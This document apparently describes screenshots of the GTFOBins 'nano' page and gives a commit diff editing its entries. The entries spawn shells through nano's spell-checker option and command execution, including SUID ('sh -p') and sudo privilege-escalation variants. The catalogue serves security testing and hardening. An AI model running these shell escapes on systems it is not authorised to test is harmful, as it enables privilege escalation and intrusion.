

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nano.md, in a window 1280 px wide and 900 px high, scrolled down 853 px. Shown: the top 869 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1548 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Fix nano shell, suid, and sudo

```diff
--- a/_gtfobins/nano.md
+++ b/_gtfobins/nano.md
@@ -7,10 +7,8 @@ functions:
         reset; sh 1>&0 2>&0
     - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
       code: |
-        TF=$(mktemp)
-        echo 'exec sh' > $TF
-        chmod +x $TF
-        nano -s $TF /etc/hosts
+        nano -s /bin/sh
+        /bin/sh
         ^T
   file-write:
     - code: |
@@ -23,7 +21,8 @@ functions:
     - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
       code: |
         TF=$(mktemp)
-        echo 'exec sh -p' > $TF
+        echo '#!/bin/sh -p
+        exec sh -p' > $TF
         chmod +x $TF
         ./nano -s $TF /etc/hosts
         ^T
@@ -32,11 +31,4 @@ functions:
         sudo nano
         ^R^X
         reset; sh 1>&0 2>&0
-    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
-      code: |
-        TF=$(mktemp)
-        echo 'exec sh' > $TF
-        chmod +x $TF
-        sudo nano -s $TF /etc/hosts
-        ^T
 ---
```
